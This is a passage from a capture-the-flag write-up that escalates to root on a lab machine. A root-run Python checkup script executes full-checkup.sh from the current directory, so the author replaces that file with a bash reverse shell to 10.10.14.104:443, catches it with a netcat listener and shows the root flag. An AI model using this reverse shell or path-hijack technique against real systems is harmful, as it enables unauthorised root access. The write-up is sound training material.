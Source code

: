 Checking the [`system-checkup.py`](http://system-checkup.py) script we can see that it just runs the mentioned 3 commands. But the interesting part is

```python
 elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

that while handling full-checkup it tries to run [`full-checkup.sh`](http://full-checkup.sh) from the current directory so if we add anything to the [`full-checkup.sh`](http://full-checkup.sh) file it runs as root if we start [`system-checkup.py`](http://system-checkup.py) `full-checkup` in the same directory. So, let's try this.

```bash
nano full-checkup.sh
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910280959/5b538291-1f9f-418a-a921-77f72e1f62cf.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910285081/b5fcb468-52f8-44a1-8a68-a6d4d512b519.png align="center")

Now we can update the script to include a reverse shell.

```bash
bash -i >& /dev/tcp/10.10.14.104/443 0>&1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910288860/1a7b72e6-335a-41bf-809a-b3e8725ee230.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910292710/5def7556-e547-4aab-9f7c-44aed38f4467.png align="center")

Let's check our Netcat listener.

```bash
rlwrap nc -nlvp 443
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910296279/516341ef-61c5-41dc-8ba7-0e9d13dd8202.png align="center")

Now let's get our root flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738910298792/f5c3b287-3d3b-43c0-8e63-33a6562ae34f.png align="center")

Flag: *36ea04a120e1d295ac9646a7dcc714ce*